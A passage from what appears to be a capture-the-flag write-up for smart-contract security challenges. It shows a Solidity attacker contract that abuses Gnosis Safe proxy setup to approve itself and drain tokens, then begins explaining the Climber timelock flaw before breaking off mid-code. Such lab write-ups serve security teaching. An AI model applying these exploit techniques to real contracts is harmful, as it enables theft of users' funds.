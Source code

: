 ```sol
    }

    function attack(address[] memory beneficiaries) public payable {
        for (uint256 i = 0; i < 4; ++i) {
            address[] memory beneficiary = new address[](1);
            beneficiary[0] = beneficiaries[i];

            GnosisSafeProxy proxy = proxyFactory.createProxyWithCallback(
                singleton,
                abi.encodeWithSelector(
                    GnosisSafe.setup.selector, // Selector for the setup() function call
                    beneficiary, // _owners =>  List of Safe owners.
                    1, // _threshold =>  Number of required confirmations for a Safe transaction.
                    address(this), //  to => Contract address for optional delegate call.
                    abi.encodeWithSignature("approve(address)", address(this)), // data =>  Data payload for optional delegate call.
                    address(0), //  fallbackHandler =>  Handler for fallback calls to this contract
                    0, //  paymentToken =>  Token that should be used for the payment (0 is ETH)
                    0, // payment => Value that should be paid
                    0 //  paymentReceiver => Adddress that should receive the payment (or 0 if tx.origin)
                ),
                0, // salt
                IProxyCreationCallback(registry)
            );
            token.transferFrom(address(proxy), msg.sender, 10 ether);
        }
    }
}

```

### 12. Climber

This challenge is a combination of UUPS upgradeable pattern and timelocks. It consists of two parts:
1. A vault contract employing the UUPS upgradeable pattern, which holds tokens. Our aim here is to drain these tokens.
2. A timelock that acts as the owner of the vault.

Upon reviewing the contract code, it becomes apparent that our primary objective is to gain control of the timevault. Once in control, we can transfer the vault's ownership to ourselves and subsequently upgrade the vault code to a version that allows us to drain the tokens.

A notable vulnerability lies in the `execute()` function of the timelock contract. This function lacks ownership checks, meaning anyone can call `execute()`. More critically, it processes the input calldata before verifying the operation's state. This flaw provides an opening for our exploit: we can manipulate the timelock to execute some code and circumvent the `getOperationState(id) != OperationState.ReadyForExecution` check. 

`ClimberTimelock.sol` code:
```sol
    /**
     * Anyone can execute what's been scheduled via `schedule`
     */
    function execute(address[] calldata targets, uint256[] calldata values, bytes[] calldata dataElements, bytes32 salt)
        external
        payable
    {
        if (targets.length <= MIN_TARGETS) {
            revert InvalidTargetsCount();
        }

        if (targets.length != values.length) {
```
